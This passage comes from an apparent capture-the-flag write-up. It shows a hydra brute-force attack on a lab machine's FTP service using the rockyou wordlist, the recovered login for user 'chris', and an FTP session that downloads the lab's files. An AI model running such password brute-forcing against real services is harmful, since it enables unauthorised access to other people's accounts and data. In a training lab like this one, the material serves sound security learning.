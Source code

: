 Can we brute force the FTP? Let’s attempt to `hydra` it!

```shell
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.185.219
...
[21][ftp] host: 10.10.185.219   login: chris   password: crystal
```

Progress!

```shell
$ ftp 10.10.185.219
Connected to 10.10.185.219.
220 (vsFTPd 3.0.3)
Name (10.10.185.219:kali): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
500 Illegal PORT command.
ftp: bind: Address already in use
```

After some research on how to enumerate files and download then:

```shell
ftp> pass
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,185,219,149,235).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
227 Entering Passive Mode (10,10,185,219,188,72).
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (3.8324 MB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
227 Entering Passive Mode (10,10,185,219,185,178).
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
33143 bytes received in 0.28 secs (117.1373 kB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
227 Entering Passive Mode (10,10,185,219,248,194).
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
226 Transfer complete.
34842 bytes received in 0.24 secs (139.1136 kB/s)
ftp> exit
```
